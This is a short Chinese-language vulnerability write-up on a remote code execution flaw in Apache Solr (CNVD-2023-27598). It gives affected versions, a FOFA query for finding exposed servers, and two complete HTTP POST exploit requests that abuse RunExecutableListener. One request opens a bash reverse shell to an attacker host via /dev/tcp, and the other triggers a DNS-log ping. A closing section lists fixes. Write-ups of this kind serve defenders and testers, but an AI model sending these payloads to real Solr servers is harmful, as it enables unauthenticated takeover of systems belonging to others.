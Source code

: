# Apache Solr 代码执行漏洞 CNVD-2023-27598

## 漏洞描述

Solr 以 Solrcloud 模式启动且可出网时，未经身份验证的远程攻击者可以通过发送特制的数据包进行利用，最终在目标系统上远程执行任意代码。

## 漏洞影响

```
8.10.0 <= Apache Solr < 9.2.0
```

## FOFA

```
app="APACHE-Solr"
```

## 漏洞复现

使用postCommit来命令执行

```
POST /solr/demo/config HTTP/1.1
Host: 192.168.1.92:8983
Content-Length: 180
Content-Type: application/json

{"add-listener":{"event":"postCommit","name":"suiyi","class":"solr.RunExecutableListener","exe":"bash","dir":"/bin/","args":["-c", "bash -i >& /dev/tcp/your-ip/9999 0>&1"]}}
```

通过newSearcher命令执行

```
POST /solr/demo/config HTTP/1.1
Host: 192.168.1.92:8983
Content-Length: 170
Content-Type: application/json

{"add-listener":{"event":"newSearcher","name":"newSearcher3","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "ping -c 3 your-dnslog.dnslog.cn"]}}
```

## 漏洞修复

1. 如果未使用 ConfigSets API，请禁用 UPLOAD 命令，将系统属性：configset.upload.enabled 设置为 false ，详细参考：https://lucene.apache.org/solr/guide/8_6/configsets-api.html
2. 使用身份验证/授权，详细参考：https://lucene.apache.org/solr/guide/8_6/authentication-and-authorization-plugins.html
3. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：
   https://github.com/apache/solr/releases/tag/releases/solr/9.2.0
